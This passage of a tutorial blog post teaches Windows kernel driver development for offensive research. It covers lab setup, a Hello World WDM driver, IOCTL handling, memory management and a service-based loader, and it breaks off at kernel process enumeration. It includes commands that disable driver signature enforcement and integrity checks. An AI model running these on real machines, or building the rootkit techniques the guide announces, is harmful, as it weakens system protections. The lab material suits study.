

<!-- ============================================================ -->
<!--  TABLE OF CONTENTS (auto-generated by Chirpy from ## headings) -->
<!-- ============================================================ -->

## Preface
{: .mt-4 }

> **Disclaimer — Educational Purposes Only**
>
> Everything in this post is written strictly for **educational and authorized
> security-research purposes**. Developing, deploying, or distributing
> malicious kernel drivers against systems you do not own or do not have
> explicit written permission to test is **illegal** in virtually every
> jurisdiction. The author assumes no liability for misuse. Always follow
> responsible-disclosure practices and applicable laws.
{: .prompt-danger }

This guide is **enormous** by design. It is structured so that someone who has
never compiled a single driver can follow along from the very first section and
progressively reach advanced offensive-security topics such as Direct Kernel
Object Manipulation (DKOM), System Service Descriptor Table (SSDT) hooking,
minifilter-based file hiding, network filtering from ring 0, hypervisor-level
concepts, and anti-forensics.

Every section builds on the one before it. Code is complete and annotated.
Commands are given verbatim. Diagrams are provided where they help
understanding.

Let's begin.

---

## Part I — Foundations

### Chapter 1: What Is a Driver?

#### 1.1 The Two Worlds: User Mode vs Kernel Mode

Modern operating systems separate execution into (at least) two privilege
levels:

| Aspect | User Mode (Ring 3) | Kernel Mode (Ring 0) |
|---|---|---|
| Privilege | Restricted | Unrestricted |
| Memory access | Own virtual address space only | Entire physical & virtual memory |
| Crash impact | Process terminates | **Blue Screen of Death (BSOD)** |
| API surface | Win32 / WinRT / POSIX | Native API, HAL, kernel-internal |
| Typical code | Applications (.exe, .dll) | Drivers (.sys), the kernel itself |

A driver is a kernel-mode module (file extension .sys) that the OS loads
into the kernel address space. Once loaded it executes with the same privilege
as the kernel itself — Ring 0. This means a driver can:

Read / write any physical or virtual memory.
Modify kernel data structures (process lists, token privileges, …).
Intercept or redirect any system call.
Talk directly to hardware (ports, MMIO, DMA).
Disable security features (PatchGuard, DSE, ETW, …).
This is precisely why malware authors, anti-cheat software, and red-team
operators care about drivers.

1.2 Types of Windows Drivers
| Type | Framework | Typical Use |
| WDM (Windows Driver Model) | Legacy, low-level | Hardware drivers, rootkits |
| WDF / KMDF | Modern, event-driven | Production hardware drivers |
| UMDF | User-mode driver framework | Printers, sensors |
| Minifilter | Filter Manager (fltmgr.sys) | File-system filtering |
| NDIS / WFP | Network stack | Firewalls, packet inspection |
For offensive research the most common starting point is WDM because it
gives raw access to everything without abstractions getting in the way. This
guide focuses on WDM first, then introduces minifilters and WFP later.

1.3 The Life-Cycle of a Driver
text

1. DriverEntry()        — Called when the driver is loaded (like main()).
2. Create device object  — Optionally, so user-mode can open a handle.
3. Create symbolic link   — So user-mode can reference the device by name.
4. Set IRP dispatch       — Register handlers for I/O Request Packets.
5. Do work               — Callbacks, hooks, filters, etc.
6. DriverUnload()        — Called when the driver is unloaded; clean up.
mermaid

sequenceDiagram
    participant SCM as Service Control Manager
    participant KRN as ntoskrnl.exe
    participant DRV as YourDriver.sys

    SCM->>KRN: Load driver image
    KRN->>DRV: Call DriverEntry()
    DRV->>KRN: Register dispatch routines
    Note over DRV: Driver is now active
    SCM->>KRN: Unload request
    KRN->>DRV: Call DriverUnload()
    DRV->>KRN: Cleanup & return
1.4 Key Kernel Concepts You Must Know
Before writing a single line of driver code you need a mental model of:

IRQL (Interrupt Request Level) — A priority scheme. Code at a higher
IRQL cannot be preempted by code at a lower IRQL. Common levels:

| IRQL | Name | Notes |
| 0 | PASSIVE_LEVEL | Normal thread execution |
| 1 | APC_LEVEL | Asynchronous Procedure Calls |
| 2 | DISPATCH_LEVEL | Scheduler; no page faults allowed |
| >2 | Device / IPI / HIGH | Hardware interrupts |
IRP (I/O Request Packet) — The fundamental data structure for I/O in
Windows. When user-mode calls ReadFile(), the I/O manager builds an IRP
and sends it down the driver stack.

EPROCESS / ETHREAD — Internal kernel structures representing a process
and a thread respectively. Much of the offensive work involves reading or
modifying these.

System Service Descriptor Table (SSDT) — A table of function pointers
the kernel uses to dispatch system calls. Older rootkits modify this table;
PatchGuard now protects it.

Object Manager — Manages all named kernel objects (devices, mutexes,
events, sections, …).

PatchGuard (Kernel Patch Protection) — A Windows security feature that
periodically checks critical kernel structures for tampering. If changes are
detected it triggers CRITICAL_STRUCTURE_CORRUPTION (BSOD 0x109).

Driver Signature Enforcement (DSE) — Since Windows Vista x64, drivers
must be signed by a trusted authority (or the machine must be in Test Signing
mode).

Chapter 2: Setting Up the Development Environment
You will need three things:

A development machine (your daily OS, or a dedicated build VM).
A target / test machine (a VM where you load the driver).
A kernel debugger connection between the two.
2.1 Required Software
| Software | Purpose | Download |
| Visual Studio 2022 (Community is fine) | IDE, compiler (MSVC) | https://visualstudio.microsoft.com/ |
| Windows SDK (latest) | Headers, libs, tools | Installed via VS Installer |
| Windows Driver Kit (WDK) (latest) | Driver headers, libs, templates | https://learn.microsoft.com/en-us/windows-hardware/drivers/download-the-wdk |
| WDK VS Extension | Integrates WDK into VS | Installed with WDK |
| Windows 10/11 VM | Target machine | Evaluation ISOs from Microsoft |
| VMware Workstation / VirtualBox / Hyper-V | Virtualization | Your choice |
| WinDbg (Preview) | Kernel debugger | Microsoft Store or SDK |
| OSR Driver Loader (optional) | Quick driver loading | https://www.osr.com/ |
| DebugView (Sysinternals) | View DbgPrint output | https://learn.microsoft.com/en-us/sysinternals/downloads/debugview |
2.2 Installing Visual Studio 2022 + WDK
Step 1 — Visual Studio
Download the Community installer.
Run it and select these workloads:
Desktop development with C++
.NET desktop development (some WDK tools depend on it)
In the Individual components tab make sure the following are checked:
MSVC v143 — VS 2022 C++ x64/x86 build tools (latest)
Windows 11 SDK (10.0.226xx)
C++ ATL for latest build tools (x86 & x64)
Spectre-mitigated libs (MSVC v143)
Click Install and wait.
Step 2 — Windows SDK
Usually installed automatically with VS. Confirm by checking:

text

C:\Program Files (x86)\Windows Kits\10\Include\10.0.xxxxx.0\km\ntddk.h
If this file does not exist, download the standalone SDK installer and
install the "Windows SDK for desktop C++ amd64/x86" feature.

Step 3 — Windows Driver Kit (WDK)
Download the WDK installer matching your SDK version.
Run wdksetup.exe → install all features.
At the end it will offer to install the WDK Visual Studio Extension —
accept.
Verify
Open Visual Studio → File → New → Project → search for "Kernel Mode
Driver, Empty (KMDF)" or "Empty WDM Driver". If these templates appear,
your environment is correct.

2.3 Preparing the Target VM
2.3.1 Create the VM
OS: Windows 10 21H2+ or Windows 11 (64-bit).
RAM: 4 GB minimum.
Disk: 60 GB.
Network: NAT or Host-Only (keep it isolated!).
Disable Secure Boot in VM settings (required for test-signing).
2.3.2 Enable Test Signing
Open an elevated Command Prompt inside the VM:

PowerShell

bcdedit /set testsigning on
bcdedit /set nointegritychecks on
Reboot. You should see a "Test Mode" watermark on the desktop.

These settings disable Driver Signature Enforcement so we can load our
unsigned (or test-signed) driver.
{: .prompt-info }

2.3.3 Enable Kernel Debugging
Still in the elevated prompt:

PowerShell

# For network debugging (VMware / Hyper-V):
bcdedit /debug on
bcdedit /dbgsettings net hostip:<YOUR_HOST_IP> port:50000 key:1.2.3.4

# — OR — for serial debugging (VirtualBox):
bcdedit /debug on
bcdedit /dbgsettings serial debugport:1 baudrate:115200
Reboot the VM.

2.3.4 Connect WinDbg
On your host machine:

text

# Network:
windbg -k net:port=50000,key=1.2.3.4

# Serial (if using named pipe \\.\pipe\com1):
windbg -k com:pipe,port=\\.\pipe\com1,resets=0,reconnect
When the VM finishes booting, break into the debugger with Ctrl+Break.
You should see:

text

kd> .reload
kd> lm          (list modules)
If you see kernel module listings — congratulations, kernel debugging is
working.

2.4 Alternative: Using kdnet (Network Kernel Debugging)
Microsoft's recommended approach on modern systems:

Copy kdnet.exe and VerifiedNICList.xml from the WDK to the target VM
(found in C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\).

On the target:

PowerShell

kdnet.exe <HostIP> 50000
It will output a key.

On the host:

text

windbg -k net:port=50000,key=<GENERATED_KEY>
2.5 DebugView Setup (for DbgPrint output without full kernel debugger)
Run DebugView as Administrator on the target.
Capture → Capture Kernel (Ctrl+K).
Now any DbgPrint() from your driver will appear.
Chapter 3: Your First Kernel Driver — "Hello Kernel"
3.1 Create the Visual Studio Project
File → New → Project → Empty WDM Driver
Name it HelloKernel.
VS creates a mostly empty project with the correct build settings.
Delete any auto-generated .c files. We will write everything from scratch.

3.2 Source Code: main.c
Create a file main.c in the Source Files filter:

C

/*
 * HelloKernel — The simplest possible WDM driver.
 *
 * It prints a message on load and on unload. That's it.
 */

#include <ntddk.h>   // Core kernel-mode header

/* Forward declaration */
VOID DriverUnloadRoutine(_In_ PDRIVER_OBJECT DriverObject);

/*
 * DriverEntry — Entry point, analogous to main().
 *
 * Parameters:
 *   DriverObject  — Pointer to the driver object created by the I/O manager.
 *   RegistryPath  — Path to the driver's registry key under HKLM\SYSTEM\...
 *
 * Returns:
 *   STATUS_SUCCESS on success; an NTSTATUS error code otherwise.
 */
NTSTATUS
DriverEntry(
    _In_ PDRIVER_OBJECT  DriverObject,
    _In_ PUNICODE_STRING RegistryPath
)
{
    UNREFERENCED_PARAMETER(RegistryPath);

    DbgPrintEx(
        DPFLTR_IHVDRIVER_ID,
        DPFLTR_INFO_LEVEL,
        "[HelloKernel] DriverEntry called. We are in the kernel!\n"
    );

    /* Register unload routine so the driver can be stopped & unloaded. */
    DriverObject->DriverUnload = DriverUnloadRoutine;

    return STATUS_SUCCESS;
}

/*
 * DriverUnloadRoutine — Called when the driver is being unloaded.
 */
VOID
DriverUnloadRoutine(_In_ PDRIVER_OBJECT DriverObject)
{
    UNREFERENCED_PARAMETER(DriverObject);

    DbgPrintEx(
        DPFLTR_IHVDRIVER_ID,
        DPFLTR_INFO_LEVEL,
        "[HelloKernel] Driver is unloading. Goodbye from Ring 0!\n"
    );
}
Why DbgPrintEx instead of DbgPrint?
DbgPrintEx lets you specify a component ID and level so DebugView
and WinDbg can filter messages. DbgPrint is a wrapper with default
settings that may be filtered out on newer Windows versions.
{: .prompt-tip }

3.3 Build Settings
Open Project → Properties:

| Setting | Value |
| Configuration | Debug / Release |
| Platform | x64 |
| C/C++ → Treat Warnings As Errors | No (for learning) |
| Driver Settings → Target OS Version | Windows 10 |
| Driver Settings → Target Platform | Desktop |
| Inf2Cat → Run Inf2Cat | No |
Build the solution (Ctrl+Shift+B). The output is:

text

HelloKernel\x64\Debug\HelloKernel.sys
3.4 Loading the Driver on the Target VM
Copy HelloKernel.sys to the target VM (e.g., to C:\Drivers\).

Method 1 — sc.exe (Service Control Manager)
PowerShell

# Create the service entry
sc create HelloKernel type= kernel binPath= C:\Drivers\HelloKernel.sys

# Start the driver
sc start HelloKernel

# Check DebugView or WinDbg for the message

# Stop & delete
sc stop HelloKernel
sc delete HelloKernel
The space after type= and binPath= is mandatory — that is not a
typo. This is how sc.exe parses arguments.
{: .prompt-warning }

Method 2 — OSR Driver Loader
Run OSR Driver Loader as admin.
Browse to HelloKernel.sys.
Select "Demand Load" (manual start).
Click Register Service → Start Service.
When done, click Stop Service → Deregister Service.
Method 3 — Programmatic (C++ user-mode loader)
We will write a proper loader later in Chapter 6.

3.5 Verifying Output
If you have DebugView open with kernel capture enabled, you should see:

text

[HelloKernel] DriverEntry called. We are in the kernel!
And when you stop the driver:

text

[HelloKernel] Driver is unloading. Goodbye from Ring 0!
🎉 Congratulations — you have just executed code in Ring 0.

Chapter 4: Understanding Driver Internals — Deep Dive
4.1 DRIVER_OBJECT
When the I/O Manager loads your driver it creates a DRIVER_OBJECT structure.
Key fields:

C

typedef struct _DRIVER_OBJECT {
    CSHORT             Type;
    CSHORT             Size;
    PDEVICE_OBJECT     DeviceObject;       // Head of device list
    ULONG              Flags;
    PVOID              DriverStart;         // Base address of loaded image
    ULONG              DriverSize;          // Size in bytes
    PVOID              DriverSection;       // PLDR_DATA_TABLE_ENTRY (!)
    PDRIVER_EXTENSION   DriverExtension;
    UNICODE_STRING     DriverName;
    PUNICODE_STRING    HardwareDatabase;
    PFAST_IO_DISPATCH  FastIoDispatch;
    PDRIVER_INITIALIZE DriverInit;
    PDRIVER_STARTIO    DriverStartIo;
    PDRIVER_UNLOAD     DriverUnload;       // We set this
    PDRIVER_DISPATCH   MajorFunction[IRP_MJ_MAXIMUM_FUNCTION + 1];
} DRIVER_OBJECT, *PDRIVER_OBJECT;
The MajorFunction array is where you register handlers for I/O operations:

| Index | Constant | Triggered by |
| 0x00 | IRP_MJ_CREATE | CreateFile() |
| 0x02 | IRP_MJ_CLOSE | CloseHandle() |
| 0x03 | IRP_MJ_READ | ReadFile() |
| 0x04 | IRP_MJ_WRITE | WriteFile() |
| 0x0E | IRP_MJ_DEVICE_CONTROL | DeviceIoControl() |
4.2 DEVICE_OBJECT and Symbolic Links
For user-mode to communicate with your driver it needs:

A Device Object — created with IoCreateDevice().
A Symbolic Link — maps a user-visible name to the device.
C

// In DriverEntry:

UNICODE_STRING devName  = RTL_CONSTANT_STRING(L"\\Device\\MyDriver");
UNICODE_STRING symLink  = RTL_CONSTANT_STRING(L"\\??\\MyDriver");
PDEVICE_OBJECT DeviceObject = NULL;

status = IoCreateDevice(
    DriverObject,
    0,                  // DeviceExtensionSize
    &devName,
    FILE_DEVICE_UNKNOWN,
    0,                  // DeviceCharacteristics
    FALSE,              // Exclusive
    &DeviceObject
);

if (!NT_SUCCESS(status)) {
    DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_ERROR_LEVEL,
               "IoCreateDevice failed: 0x%08X\n", status);
    return status;
}

status = IoCreateSymbolicLink(&symLink, &devName);
if (!NT_SUCCESS(status)) {
    IoDeleteDevice(DeviceObject);
    return status;
}
Now user-mode can do:

C

HANDLE hDevice = CreateFileW(
    L"\\\\.\\MyDriver",
    GENERIC_READ | GENERIC_WRITE,
    0, NULL, OPEN_EXISTING, 0, NULL
);
4.3 IRP Handling
Every I/O operation arrives as an IRP (I/O Request Packet). The driver
registers handlers in the MajorFunction array:

C

DriverObject->MajorFunction[IRP_MJ_CREATE]         = MyCreateClose;
DriverObject->MajorFunction[IRP_MJ_CLOSE]          = MyCreateClose;
DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = MyDeviceControl;
A minimal Create/Close handler:

C

NTSTATUS
MyCreateClose(
    _In_ PDEVICE_OBJECT DeviceObject,
    _In_ PIRP           Irp
)
{
    UNREFERENCED_PARAMETER(DeviceObject);

    Irp->IoStatus.Status      = STATUS_SUCCESS;
    Irp->IoStatus.Information = 0;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return STATUS_SUCCESS;
}
A DeviceIoControl handler:

C

#define IOCTL_HELLO \
    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

NTSTATUS
MyDeviceControl(
    _In_ PDEVICE_OBJECT DeviceObject,
    _In_ PIRP           Irp
)
{
    UNREFERENCED_PARAMETER(DeviceObject);

    PIO_STACK_LOCATION stack = IoGetCurrentIrpStackLocation(Irp);
    NTSTATUS status = STATUS_SUCCESS;

    switch (stack->Parameters.DeviceIoControl.IoControlCode)
    {
    case IOCTL_HELLO:
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                   "[MyDriver] IOCTL_HELLO received!\n");
        break;

    default:
        status = STATUS_INVALID_DEVICE_REQUEST;
        break;
    }

    Irp->IoStatus.Status      = status;
    Irp->IoStatus.Information = 0;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return status;
}
4.4 IOCTL Codes Explained
The CTL_CODE macro packs four values into a 32-bit code:

C

#define CTL_CODE(DeviceType, Function, Method, Access)  \
    ( ((DeviceType) << 16) | ((Access) << 14) | ((Function) << 2) | (Method) )
| Field | Bits | Common Values |
| DeviceType | 31–16 | FILE_DEVICE_UNKNOWN (0x22) |
| Access | 15–14 | FILE_ANY_ACCESS (0) |
| Function | 13–2 | 0x800+ (user-defined) |
| Method | 1–0 | 0=Buffered, 1=InDirect, 2=OutDirect, 3=Neither |
For offensive drivers METHOD_BUFFERED is almost always used because it's
simplest: the I/O manager copies user buffers into kernel pool, does the
work, then copies back.

4.5 Complete "Hello Kernel v2" with IOCTL
Let us put it all together:

C

/* main.c — HelloKernel v2 */

#include <ntddk.h>

#define DEVICE_NAME  L"\\Device\\HelloKernel"
#define SYMLINK_NAME L"\\??\\HelloKernel"

#define IOCTL_SAY_HELLO \
    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

#define IOCTL_READ_KERNEL_MSG \
    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_BUFFERED, FILE_ANY_ACCESS)

PDEVICE_OBJECT g_DeviceObject = NULL;

/* Forward declarations */
VOID   DriverUnloadRoutine(PDRIVER_OBJECT);
NTSTATUS DispatchCreateClose(PDEVICE_OBJECT, PIRP);
NTSTATUS DispatchDeviceControl(PDEVICE_OBJECT, PIRP);

/* --------------------------------------------------------------- */

NTSTATUS
DriverEntry(
    _In_ PDRIVER_OBJECT  DriverObject,
    _In_ PUNICODE_STRING RegistryPath
)
{
    UNREFERENCED_PARAMETER(RegistryPath);
    NTSTATUS status;

    DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
               "[HelloKernel] DriverEntry\n");

    /* 1. Create device */
    UNICODE_STRING devName = RTL_CONSTANT_STRING(DEVICE_NAME);
    status = IoCreateDevice(
        DriverObject, 0, &devName,
        FILE_DEVICE_UNKNOWN, 0, FALSE,
        &g_DeviceObject
    );
    if (!NT_SUCCESS(status)) return status;

    /* 2. Create symbolic link */
    UNICODE_STRING symLink = RTL_CONSTANT_STRING(SYMLINK_NAME);
    status = IoCreateSymbolicLink(&symLink, &devName);
    if (!NT_SUCCESS(status)) {
        IoDeleteDevice(g_DeviceObject);
        return status;
    }

    /* 3. Set dispatch routines */
    DriverObject->MajorFunction[IRP_MJ_CREATE]         = DispatchCreateClose;
    DriverObject->MajorFunction[IRP_MJ_CLOSE]          = DispatchCreateClose;
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = DispatchDeviceControl;

    /* 4. Set unload */
    DriverObject->DriverUnload = DriverUnloadRoutine;

    /* 5. Set DO_BUFFERED_IO flag */
    g_DeviceObject->Flags |= DO_BUFFERED_IO;
    g_DeviceObject->Flags &= ~DO_DEVICE_INITIALIZING;

    return STATUS_SUCCESS;
}

/* --------------------------------------------------------------- */

VOID
DriverUnloadRoutine(_In_ PDRIVER_OBJECT DriverObject)
{
    UNREFERENCED_PARAMETER(DriverObject);

    UNICODE_STRING symLink = RTL_CONSTANT_STRING(SYMLINK_NAME);
    IoDeleteSymbolicLink(&symLink);
    IoDeleteDevice(g_DeviceObject);

    DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
               "[HelloKernel] Unloaded\n");
}

/* --------------------------------------------------------------- */

NTSTATUS
DispatchCreateClose(PDEVICE_OBJECT DeviceObject, PIRP Irp)
{
    UNREFERENCED_PARAMETER(DeviceObject);
    Irp->IoStatus.Status      = STATUS_SUCCESS;
    Irp->IoStatus.Information = 0;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return STATUS_SUCCESS;
}

/* --------------------------------------------------------------- */

NTSTATUS
DispatchDeviceControl(PDEVICE_OBJECT DeviceObject, PIRP Irp)
{
    UNREFERENCED_PARAMETER(DeviceObject);

    PIO_STACK_LOCATION stack = IoGetCurrentIrpStackLocation(Irp);
    NTSTATUS status = STATUS_SUCCESS;
    ULONG_PTR info  = 0;

    PVOID  buffer     = Irp->AssociatedIrp.SystemBuffer;
    ULONG  inLength   = stack->Parameters.DeviceIoControl.InputBufferLength;
    ULONG  outLength  = stack->Parameters.DeviceIoControl.OutputBufferLength;

    UNREFERENCED_PARAMETER(inLength);

    switch (stack->Parameters.DeviceIoControl.IoControlCode)
    {
    case IOCTL_SAY_HELLO:
    {
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                   "[HelloKernel] IOCTL_SAY_HELLO\n");
        break;
    }

    case IOCTL_READ_KERNEL_MSG:
    {
        const char msg[] = "Hello from Ring 0!";
        ULONG msgLen = sizeof(msg);

        if (outLength < msgLen) {
            status = STATUS_BUFFER_TOO_SMALL;
            break;
        }

        RtlCopyMemory(buffer, msg, msgLen);
        info = msgLen;
        break;
    }

    default:
        status = STATUS_INVALID_DEVICE_REQUEST;
        break;
    }

    Irp->IoStatus.Status      = status;
    Irp->IoStatus.Information = info;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return status;
}
4.6 User-Mode Client
C

/* client.c — Ring 3 program that talks to HelloKernel driver */

#include <Windows.h>
#include <stdio.h>

#define IOCTL_SAY_HELLO \
    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

#define IOCTL_READ_KERNEL_MSG \
    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_BUFFERED, FILE_ANY_ACCESS)

int main(void)
{
    HANDLE hDevice = CreateFileW(
        L"\\\\.\\HelloKernel",
        GENERIC_READ | GENERIC_WRITE,
        0, NULL, OPEN_EXISTING, 0, NULL
    );

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("Failed to open device: %lu\n", GetLastError());
        return 1;
    }

    /* Send IOCTL_SAY_HELLO */
    DWORD returned;
    BOOL ok = DeviceIoControl(
        hDevice, IOCTL_SAY_HELLO,
        NULL, 0, NULL, 0,
        &returned, NULL
    );
    printf("IOCTL_SAY_HELLO: %s\n", ok ? "OK" : "FAIL");

    /* Send IOCTL_READ_KERNEL_MSG */
    char buf[256] = {0};
    ok = DeviceIoControl(
        hDevice, IOCTL_READ_KERNEL_MSG,
        NULL, 0, buf, sizeof(buf),
        &returned, NULL
    );
    if (ok) {
        printf("Kernel says: %s\n", buf);
    }

    CloseHandle(hDevice);
    return 0;
}
Compile with:

PowerShell

cl.exe /W4 client.c /link /out:client.exe
Run the client while the driver is loaded and you should see:

text

IOCTL_SAY_HELLO: OK
Kernel says: Hello from Ring 0!
Chapter 5: Kernel Memory Management
This chapter covers how the kernel allocates and manages memory — something
you will use constantly.

5.1 Pool Allocations
The kernel equivalent of malloc() is ExAllocatePool2 (modern) or the
legacy ExAllocatePoolWithTag.

C

// Modern (Windows 10 2004+):
PVOID ptr = ExAllocatePool2(
    POOL_FLAG_NON_PAGED,  // Pool type flags
    1024,                  // Size in bytes
    'gaTk'                // Tag (4-char, reversed in memory)
);

if (ptr == NULL) {
    // Allocation failed
}

// Use the memory ...

ExFreePoolWithTag(ptr, 'gaTk');
| Pool Type | Description |
| POOL_FLAG_NON_PAGED | Memory is always resident in physical RAM. Safe at DISPATCH_LEVEL. |
| POOL_FLAG_PAGED | Memory can be paged out. Only usable at IRQL ≤ APC_LEVEL. |
Use non-paged pool for anything accessed in callbacks, DPC routines,
or at DISPATCH_LEVEL+.
{: .prompt-info }

5.2 MDL (Memory Descriptor List)
An MDL describes a virtual memory region in terms of physical pages. You will
use MDLs when you need to:

Lock user-mode pages into physical memory for DMA.
Map kernel memory into user space.
Map user memory into kernel space (e.g., METHOD_NEITHER).
C

PMDL mdl = IoAllocateMdl(userBuffer, length, FALSE, FALSE, NULL);
MmProbeAndLockPages(mdl, UserMode, IoReadAccess);

PVOID kernelAddr = MmGetSystemAddressForMdlSafe(mdl, NormalPagePriority);

// ... use kernelAddr ...

MmUnlockPages(mdl);
IoFreeMdl(mdl);
5.3 Kernel-Mode Strings
Windows kernel uses UNICODE_STRING:

C

typedef struct _UNICODE_STRING {
    USHORT Length;         // Current length in BYTES (not chars)
    USHORT MaximumLength;  // Buffer capacity in BYTES
    PWCH   Buffer;
} UNICODE_STRING;
Common operations:

C

UNICODE_STRING str;
RtlInitUnicodeString(&str, L"Hello");

// Compare
if (RtlEqualUnicodeString(&str1, &str2, TRUE /* case-insensitive */)) { ... }

// Copy
WCHAR buf[128];
UNICODE_STRING dest;
dest.Buffer = buf;
dest.MaximumLength = sizeof(buf);
RtlCopyUnicodeString(&dest, &src);

// Format (sprintf equivalent)
UNICODE_STRING formatted;
WCHAR fmtBuf[256];
formatted.Buffer = fmtBuf;
formatted.MaximumLength = sizeof(fmtBuf);
RtlUnicodeStringPrintf(&formatted, L"PID = %lu", pid);
5.4 Lookaside Lists
For frequent allocations of the same size, lookaside lists are far more
efficient than repeated ExAllocatePool2 calls:

C

LOOKASIDE_LIST_EX lookasideList;

ExInitializeLookasideListEx(
    &lookasideList,
    NULL, NULL,
    POOL_FLAG_NON_PAGED,
    sizeof(MY_STRUCT),
    'kooL',
    0
);

// Allocate
PMY_STRUCT item = (PMY_STRUCT)ExAllocateFromLookasideListEx(&lookasideList);

// Free
ExFreeToLookasideListEx(&lookasideList, item);

// Cleanup
ExDeleteLookasideListEx(&lookasideList);
Chapter 6: Writing a Proper User-Mode Loader
Rather than using sc.exe every time, let us write a loader:

C

/* loader.c — Loads / unloads a kernel driver programmatically */

#include <Windows.h>
#include <stdio.h>

BOOL LoadDriver(LPCWSTR serviceName, LPCWSTR driverPath)
{
    SC_HANDLE hSCM = OpenSCManagerW(NULL, NULL, SC_MANAGER_CREATE_SERVICE);
    if (!hSCM) {
        printf("OpenSCManager failed: %lu\n", GetLastError());
        return FALSE;
    }

    SC_HANDLE hService = CreateServiceW(
        hSCM,
        serviceName,
        serviceName,
        SERVICE_ALL_ACCESS,
        SERVICE_KERNEL_DRIVER,
        SERVICE_DEMAND_START,
        SERVICE_ERROR_IGNORE,
        driverPath,
        NULL, NULL, NULL, NULL, NULL
    );

    if (!hService) {
        DWORD err = GetLastError();
        if (err == ERROR_SERVICE_EXISTS) {
            hService = OpenServiceW(hSCM, serviceName, SERVICE_ALL_ACCESS);
        } else {
            printf("CreateService failed: %lu\n", err);
            CloseServiceHandle(hSCM);
            return FALSE;
        }
    }

    if (!StartServiceW(hService, 0, NULL)) {
        DWORD err = GetLastError();
        if (err != ERROR_SERVICE_ALREADY_RUNNING) {
            printf("StartService failed: %lu\n", err);
            DeleteService(hService);
            CloseServiceHandle(hService);
            CloseServiceHandle(hSCM);
            return FALSE;
        }
    }

    printf("[+] Driver loaded successfully.\n");

    CloseServiceHandle(hService);
    CloseServiceHandle(hSCM);
    return TRUE;
}

BOOL UnloadDriver(LPCWSTR serviceName)
{
    SC_HANDLE hSCM = OpenSCManagerW(NULL, NULL, SC_MANAGER_CONNECT);
    if (!hSCM) return FALSE;

    SC_HANDLE hService = OpenServiceW(hSCM, serviceName, SERVICE_ALL_ACCESS);
    if (!hService) {
        CloseServiceHandle(hSCM);
        return FALSE;
    }

    SERVICE_STATUS ss;
    ControlService(hService, SERVICE_CONTROL_STOP, &ss);
    DeleteService(hService);

    printf("[+] Driver unloaded.\n");

    CloseServiceHandle(hService);
    CloseServiceHandle(hSCM);
    return TRUE;
}

int wmain(int argc, wchar_t* argv[])
{
    if (argc < 3) {
        printf("Usage:\n");
        printf("  loader.exe load   C:\\path\\to\\driver.sys\n");
        printf("  loader.exe unload\n");
        return 1;
    }

    LPCWSTR serviceName = L"MyOffensiveDriver";

    if (_wcsicmp(argv[1], L"load") == 0) {
        LoadDriver(serviceName, argv[2]);
    } else if (_wcsicmp(argv[1], L"unload") == 0) {
        UnloadDriver(serviceName);
    }

    return 0;
}
Compile:

PowerShell

cl.exe /W4 loader.c advapi32.lib /link /out:loader.exe
Usage:

PowerShell

loader.exe load C:\Drivers\HelloKernel.sys
loader.exe unload
Part II — Intermediate Techniques
Chapter 7: Process Enumeration from the Kernel
7.1 Using ZwQuerySystemInformation
C

#include <ntddk.h>

typedef struct _SYSTEM_PROCESS_INFORMATION {
    ULONG           NextEntryOffset;
    ULONG           NumberOfThreads;
    LARGE_INTEGER   WorkingSetPrivateSize;
    /* ... many fields ... */
    UNICODE_STRING  ImageName;
    KPRIORITY       BasePriority;
    HANDLE          UniqueProcessId;
    /* ... more fields ... */
} SYSTEM_PROCESS_INFORMATION, *PSYSTEM_PROCESS_INFORMATION;

extern NTSTATUS NTAPI ZwQuerySystemInformation(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
);

#define SystemProcessInformation 5

NTSTATUS EnumerateProcesses(VOID)
{
    ULONG bufferSize = 1024 * 1024; // 1 MB
    PVOID buffer = ExAllocatePool2(POOL_FLAG_NON_PAGED, bufferSize, 'corP');
